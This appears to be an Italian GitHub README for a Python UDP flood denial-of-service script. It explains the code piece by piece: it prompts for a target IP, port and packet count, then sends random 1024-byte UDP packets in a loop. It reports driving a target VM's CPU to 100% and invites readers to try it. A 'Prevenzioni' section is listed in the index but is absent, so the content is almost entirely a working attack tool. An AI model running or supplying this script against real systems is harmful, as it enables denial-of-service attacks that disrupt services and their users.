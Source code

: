 # **UDP FLOOD**
<p> UDP FLOOD è un tipo di attacco DoS che permette al malintenzionato di attaccare una
macchina tramite il protocollo UDP. L’obiettivo è sovraccaricare la macchina target
impedendo a quest’ultima di gestire tutti i dati in entrata  </p>

## Indice
1. [Codice](#Codice)
2. [Prestazioni](#Prestazioni)
3. [Prevenzioni](#Prevenzioni)

## Codice
Importazione librerie
```bash
import socket
import random
```
Variabili
```bash
IP = input("Ip macchina target: ")
Porta = int(input("Porta macchina target: "))
npacchetti = int(input("Numero pacchetti: "))
```
Socket UDP
```bash
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
dimensione_pacchetto = 1024 #numero di byte
```
Funzione
```bash
def generazione_pack(dimensione):
  return bytes(random.getrandbits(8) for _ in range (dimensione))
```
Print
```bash
print(f" Sto inviando i pacchetti a {IP} sulla porta {Porta}")
```
Ciclo
```bash
for _ in range(npacchetti):
  sock.sendto(generazione_pack(dimensione_pacchetto), (IP, Porta))
```
Print
```bash
print("Pacchetto inviato")
```
Connessione chiusa
```bash
sock.close
```

## **Prestazioni**
<p>Questo screenshot mostra la fase di avvio dello script nei confronti della macchina target.
La CPU è riuscita a toccare il 100% di utilizzo senza la libreria threading che avrebbe portato
al crash la macchina virtuale </p> ![immagine](https://github.com/OctavianIT/Octavian_Ceresau_UdpFloodpy/blob/main/Octavian_Ceresau_UdpFlood/UdpFlood/Codice/prest.png?raw=true)



Provare per credere😅





